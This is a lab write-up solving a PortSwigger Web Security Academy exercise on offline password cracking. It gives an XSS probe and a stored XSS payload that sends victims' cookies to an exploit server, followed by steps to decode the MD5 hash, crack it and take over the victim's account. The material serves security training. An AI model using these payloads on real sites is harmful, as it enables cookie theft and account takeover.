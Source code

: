 # Offline password cracking

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking) stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

## Reproduction and proof of concept

1. With Burp running, use your own account to investigate the **Stay logged in** functionality. the `stay-logged-in` cookie is a [Base64 encoded MD5 hash](https://crackstation.net/).
2. In the **Proxy -> HTTP history** tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:

```
username+':'+md5HashOfPassword
```

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS with:

```text
<img src=1 onerror=alert(1) />
```

4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:

```
<script>document.location='https://exploit-0ada00b603793ec2c37f6a5601690033.exploit-server.net/'+document.cookie</script>
```

6. On the exploit server, open the access log. There should be a GET request from the victim containing their `stay-logged-in` cookie.
7. Decode the cookie in Burp Decoder. The result will be:

![Auth](../../_static/images/auth11.png)

8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.

![Auth](../../_static/images/auth12.png)

9. Log in to the victim's account, go to the **My account** page, and delete their account to solve the lab.

## Exploitability

An attacker will need to obtain Carlos's `stay-logged-in` cookie and use it to crack his password;then log in as `carlos` and delete his account from the "My account" page. 
